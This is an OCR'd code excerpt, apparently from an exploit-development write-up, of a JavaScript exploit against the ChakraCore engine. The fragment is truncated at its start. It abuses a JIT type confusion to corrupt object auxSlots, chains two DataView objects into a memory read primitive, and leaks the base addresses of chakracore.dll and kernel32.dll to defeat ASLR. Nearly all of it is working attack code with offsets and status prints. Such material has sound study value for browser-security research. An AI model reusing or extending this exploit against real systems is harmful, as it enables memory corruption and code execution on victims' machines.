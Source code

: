 ```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));
}

main();
```
